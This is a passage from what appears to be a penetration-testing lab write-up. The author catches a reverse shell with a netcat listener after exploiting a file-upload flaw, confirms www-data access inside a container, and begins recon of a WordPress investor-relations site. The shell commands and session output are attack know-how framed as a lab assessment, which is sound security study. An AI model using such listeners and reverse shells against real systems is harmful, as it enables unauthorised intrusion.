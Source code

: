 Let's open a listener and fetch the uploaded file.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.229.147] 47068
Linux 879145b4cf73 5.4.0-113-generic #127-Ubuntu SMP Wed May 18 14:30:56 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 16:39:29 up  1:14,  0 users,  load average: 0.10, 0.18, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
```

Here I got `www-data`'s shell!
Let's see if I can pivot through this shell.

```bash
$ hostname -I
172.18.0.5 
```

It has only a single internal IP. Furthermore, the shell doesn't have many linux commands, which implies that this is an restricted environment such as VM or docker container.

Still we have to report that the system's upload function is vulnerable to RCE attack.

##### ir.inlanefreight.local

![](attachments/aen_17.png)

This is a simple "Investor Relations" page which doesn't seem to have many functions.
When I clicked "Comment" on its bottom, it shows a clue that the server is running on Wordpress.

![](attachments/aen_18.png)
